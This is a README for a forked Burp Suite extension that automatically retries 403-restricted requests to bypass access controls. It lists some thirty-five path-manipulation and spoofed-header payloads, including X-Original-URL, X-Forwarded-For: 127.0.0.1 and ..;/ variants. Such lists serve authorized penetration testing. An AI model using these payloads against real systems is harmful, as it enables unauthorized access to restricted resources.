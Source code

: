# 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

### This forked repository adds new payloads.
*Original*: https://github.com/sting8k/BurpSuite_403Bypasser

**Payloads: 
$1: HOSTNAME
$2: PATH**
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: /$2"
$1 -H "X-Original-URL: $1" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1"
$1 -H "X-Rewrite-URL: $1"
$1 -H "X-Rewrite-URL: /$2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:80"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:443"
$1/$2 -H "X-Forwarded-For: http://127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.randomstring
$1/$2.json
$1/$2%23
$1/$2%26
$1.//$2
$1/$2..;/
$1/$2%
$1/$2.%2e/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>
